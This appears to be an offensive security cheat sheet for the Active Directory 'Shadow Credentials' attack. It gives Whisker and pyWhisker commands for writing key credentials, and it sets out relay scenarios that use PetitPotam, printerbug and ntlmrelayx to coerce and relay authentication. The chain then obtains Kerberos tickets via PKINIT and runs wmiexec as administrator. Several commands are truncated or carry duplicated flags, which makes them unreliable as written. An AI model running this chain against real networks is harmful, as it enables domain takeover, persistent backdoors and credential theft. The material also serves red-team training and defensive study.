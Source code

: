 # Shadow Credentials

## Tools: Whisker https://github.com/eladshamir/Whisker , pyWhisker https://github.com/ShutdownRepo/pywhisker , ShadowSpray https://github.com/Dec0ne/ShadowSpray/

### Add Key Credentials to the attribute msDS-KeyCredentialLink of the target user/computer object and then perform Kerberos authentication as that account using PKINIT to obtain a TGT for that user. When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has knowledge of the matching private key, and a TGT will be sent if there is a match.

## WARNING! User objects can't edit their own msDS-KeyCredentialLink attribute while computer objects can. Computer objects can edit their own msDS-KeyCredentialLink attribute but can only add a KeyCredential if none already exists

## Requirements

#### 1) Domain Controller on (at least) Windows Server 2016

#### 2) Domain must have Active Directory Certificate Services and Certificate Authority configured

#### 3) PKINIT Kerberos authentication

#### 4) An account with the delegated rights to write to the msDS-KeyCredentialLink attribute of the target object

## Exploitation

## Windows

#### 1) # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.

    Whisker.exe list /target:computername$

#### 2) # Generates a public-private key pair and adds a new key credential to the target object.

    Whisker.exe add /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1

    Whisker.exe add /target:"TARGET_SAMNAME" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"

## Linux

    python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"

## Scenarios:

### Scenario 1: Shadow Credential relaying

#### 1) Trigger an NTLM authentication from DC01 (PetitPotam)

#### 2) Relay it to DC02 (ntlmrelayx)

#### 3) Edit DC01 's attribute to create a Kerberos PKINIT pre-authentication backdoor (pywhisker)

### Alternatively : 

    ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'

### Scenario 2: Workstation Takeover with RBCD

### Only for C2: Add Reverse Port Forward from 8081 to Team Server 81

#### 1) Set up ntlmrelayx to relay authentication from target workstation to DC

    proxychains python3 ntlmrelayx.py -t ldaps://dc1.ez.lab --shadow-credentials --shadow-credentials

#### 2) Execute printer bug to trigger authentication from target workstation

    proxychains python3 printerbug.py ez.lab/matt:Password1\!@ws2.ez.lab ws1@8081/

#### 3) Get a TGT using the newly acquired certificate via PKINIT

    proxychains python3 gettgtpkinit.py ez.lab/ws2\$ ws2.ccache -cert-pfx /opt/impacket/

#### 4) Get a ST (service ticket) for the target account

    proxychains python3 gets4uticket.py kerberos+ccache://ez.lab\\ws2\$:ws2.ccache@dc1.

#### 5) Utilize the ST for future activity

    export KRB5CCNAME=/opt/pkinittools/administrator_ws2.ccache

    proxychains python3 wmiexec.py -k -no-pass ez.lab/administrator@ws2.ez.lab

